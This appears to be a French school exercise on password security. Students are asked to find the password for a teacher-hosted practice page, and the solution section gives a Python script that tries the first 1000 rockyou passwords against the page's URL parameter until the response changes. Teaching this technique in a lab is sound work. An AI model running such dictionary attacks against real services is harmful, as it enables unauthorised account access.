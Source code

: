 Nous allons utiliser un fichier beaucoup plus léger ne contenant que les 1000 premiers mots de passe : vous le trouverez à l'adresse [http://glassus1.free.fr/extraitrockyou.txt](http://glassus1.free.fr/extraitrockyou.txt){:target="_blank"} .

L'un de ces mots de passe est le mot de passe demandé à la page  [http://glassus1.free.fr/exoBF.html](http://glassus1.free.fr/exoBF.html){:target="_blank"} .

Lequel ?

??? note "Correction"
  ```python linenums='1'
  import requests

  page_error = requests.get("http://glassus1.free.fr/repBF.php?pass=")

  liste_mdp = open("extraitrockyou.txt").read().splitlines()

  url = "http://glassus1.free.fr/repBF.php?pass="

  for mdp in liste_mdp:
      new_url = url + mdp
      print(new_url)
      page_tentative = requests.get(new_url)
      if page_tentative.text != page_error.text:
          print("Le mot de passe est le suivant :", mdp)
          break
  ```





